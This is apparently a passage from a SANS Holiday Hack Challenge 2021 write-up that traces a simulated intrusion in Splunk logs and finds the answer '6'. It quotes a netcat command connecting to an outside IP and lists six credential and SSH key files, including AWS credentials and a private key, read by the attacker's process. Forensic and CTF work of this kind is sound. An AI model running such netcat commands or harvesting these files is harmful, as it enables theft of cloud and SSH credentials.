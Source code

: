 We see command line nc.openbsd ran the commandline "nc -q1 54.175.69.219 16842". <br>
Which means it connects to the IP address 54.175.69.219 on port 16842.<br>
The parent process here is 6788. <br>
<img src="../../images/hhc2021/image114_13.png" alt="drawing" width="800px"/>

Now if we look for ParentProcessId 6788. <br>
```
index=main ParentProcessId=6788
```
We see 6 files being red via /usr/bin/cat <br>
<ol>
	<li>/home/eddie/.aws/credentials</li> 
    <li>/home/eddie/.ssh/authorized_keys</li>  
	<li>/home/eddie/.ssh/config</li>  
    <li>/home/eddie/.ssh/eddie</li>  
	<li>/home/eddie/.ssh/eddie.pub</li>  
    <li>/home/eddie/.ssh/known_hosts</li> 
</ol>


So, the answer is 6. <br>
<img src="../../images/hhc2021/image114_14.png" alt="drawing" width="800px"/>